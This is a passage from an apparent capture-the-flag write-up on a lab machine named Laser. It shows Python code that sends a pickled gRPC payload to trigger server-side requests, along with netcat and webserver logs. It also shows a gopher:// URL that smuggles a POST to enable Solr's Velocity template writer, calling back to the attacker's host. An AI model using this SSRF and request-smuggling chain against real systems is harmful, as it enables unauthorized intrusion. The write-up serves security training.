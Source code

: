 ```
stub = feedengine_pb2_grpc.PrintStub(channel)
payload_ser = base64.b64encode(pickle.dumps(grpc_payload.format(url=http1)))
content = feedengine_pb2.Content(data=payload_ser)
response = stub.Feed(content)
print(response)

```

When I run this, I get a connection on my Python webserver:

```

root@kali# python3 -m http.server 8983
Serving HTTP on 0.0.0.0 port 8983 (http://0.0.0.0:8983/) ... 
10.10.10.201 - - [11/Sep/2020 17:42:28] code 404, message File not found
10.10.10.201 - - [11/Sep/2020 17:42:28] "GET /admin/cores HTTP/1.1" 404 -

```

Now I’ll try to change it from a GET to a POST and try to match the request in the POCs. I updated the payload to:

```

post = '''POST /solr/test/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
'''

host = "10.10.14.9"
target = f"gopher://{host}:8983/_"
http1 = target + quote(post, safe='')

```

I killed the Python webserver and started `nc` on 8983 (so I could see the full POST). When I run it, I get a POST request from Laser, and it looks like what I want:

```

root@kali# nc -lnvp 8983
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8983
Ncat: Listening on 0.0.0.0:8983
Ncat: Connection from 10.10.10.201.
Ncat: Connection from 10.10.10.201:51450.
POST /solr/test/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
```
